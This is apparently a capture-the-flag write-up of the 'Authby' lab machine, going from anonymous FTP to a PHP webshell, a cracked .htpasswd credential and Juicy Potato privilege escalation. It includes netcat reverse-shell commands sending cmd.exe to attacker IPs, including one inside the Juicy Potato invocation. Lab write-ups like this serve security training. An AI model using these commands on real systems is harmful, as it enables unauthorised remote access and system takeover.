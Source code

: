 # Authby

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

After scanning for open ports, i saw that i had ftp anonymous with plenty of files, let's see if there are some interesting stuff, i did not find anything interesting accesible&#x20;

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

But it does not work for the moment but i'm able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hackviser.com/tactics/pentesting/services/ftp#reverse-shell-over-website" %}

I'm able to upload a shell:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

In the admin share we got .htpasswd file:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the hash to admin:elite

looking at the web service:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

and we are able to log in:&#x20;

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

and i'm able to get a ping back:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

but no persistent shell so i need to make a better work

so i download this:

{% embed url="https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985" %}

and we're able to pop a webshell:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I tried running reverse shell commands and php and C and powershell but it was not&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i transfered nc.exe to the target and used it to make a bind shell:

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

since it's windows i have to bind to a cmd shell:

```
nc.exe 192.168.49.54 1234 -e cmd
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

It does not work and we see that this is a 32 bit system with the systeminfo command:

<figure><img src="../../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>

So i download juicy potato 32 bit and netcat:

{% embed url="https://github.com/k4sth4/Juicy-Potato/tree/main/x86" %}

```
C:\Temp>.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\Temp\nc.exe -e cmd.exe 192.168.49.63 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
